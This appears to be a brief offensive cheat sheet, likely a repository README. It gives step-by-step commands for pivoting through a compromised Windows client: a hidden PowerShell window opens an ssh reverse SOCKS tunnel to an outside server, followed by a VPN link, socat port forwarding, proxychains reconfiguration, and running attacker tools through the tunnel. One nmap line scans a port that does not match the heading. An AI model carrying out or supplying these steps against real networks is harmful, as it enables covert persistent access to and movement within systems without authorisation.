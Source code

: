 ### Start ssh connection on compromised client
```
Start-Process -FilePath "powershell" -ArgumentList " -w hidden -c ssh -p 22 -o 'StrictHostKeyChecking=no' -i $HOME\.ssh\<privateKey> -N -R 9050 <user>@<sshRhost>"
```

### Start vpn from local attacker machine to ssh server
```
openvpn --config <file>.ovpn
```

### Check if port 9050 on ssh server is reachable from attacker machine
```
nmap -p 9080 -Pn -n <sshRhost>
```

### If not redirect traffic on ssh server
```
socat TCP-LISTEN:9051,fork TCP:localhost:9050
```

### Reconfigure listener port on attacker machine
```
sed -i 's/ 9050/ 9051/g' /etc/proxychains4.conf
```

### Execute tools on attacker machine
```
proxychains firefox
```

### Add DNS resolver to proxy
```
/usr/lib/proxychains3/proxyresolv
```


